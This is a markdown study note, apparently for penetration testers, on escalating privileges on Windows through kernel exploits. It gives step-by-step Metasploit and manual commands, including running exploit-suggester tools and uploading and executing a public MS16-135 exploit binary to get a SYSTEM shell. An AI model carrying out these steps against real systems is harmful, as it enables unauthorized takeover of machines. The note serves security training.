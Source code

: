 Kernal Exploit
- Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in sysyems to elevate privileges from one user to anohter,typically to a user with administrator or root access on a system.
- Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall success of a penetration test.
- After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
- The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked.Developing your privilege escalation skills will mark you out as a good penetration tester.
#### Windows kernel
- A kernal is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system.It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
- Windows NT is the kernal that comes pre-packaged with all versions of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy.It consists of two main modes of operatoin that determine access to system resources and hardware
- - User Mode - Program and services running in user mode have limited access to system resources and functionality.
- - Kernal mode - Kernal mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.
#### Windows Kernal Exploitation
- Kernel exploits on windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the version of Windows being targeted and the kernel exploit being used.
- Privilege escalation an Windows systems will typically follow the following methodology: 
- - identify kernel vulnerabilities
- - Downloading,compiling and transferring kernel exploits onto the target system.
#### Tools and Environment
- Windows -Exploit-Suggester - This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target.It also notifies the user if there are public exploits and metasploit modules available for missing bulletins.
- - https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
- Windows-Kernel-Expoits -Collection of Windows Kernel exploits sorted by CVE
- - https://github.com/SecWiki/windows-kernel-exploits.git

#### After gaining meterpretershell
- getsystem [ this will elevated privileges automatically,if it fails follow furter process]
- background meterpreter sessions
- search suggester
- use  post/multi/recon/local_exploit_suggester
- set all requirements as it is post exploit module it requires to set session
- this will give us different module for previleges escalation we can use these like others modules
- one of module will be successful and give us  meterpreter session with NT AUTHORISE


#### Manual Exploit
- windows-exploit-suggester [ github tool]
- go to meterpreter session [unprevileged]
- sysinfo [ this show all system info]
- copy all the info into text file
- now move to the windows-exploit- suggester  directory
- ./windows-exploit-suggester.py --update [ this will update the database and create xls file like 2021-12-26-mssb.xls]

- ./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/Desktop/win7.txt [ here win7.txt is a system info file which previously created ]
- this will give us list of info about the vulnerabilities
- now google for exploit by using MS16-135
- downlaod finding binaries file and transfer it to target system from github to do that move to meterpreter[unprivileged sessions]
- GO to Temp directory by cd
- uplaod ~/Downlaod/41014.exe [ this will upload the binaries into temp directory ]
- shell [ for moving into shell ]
- .\41014.exe  [ this will show how to use it]
- .\41014.exe 7 [this will give us new privileged shell]

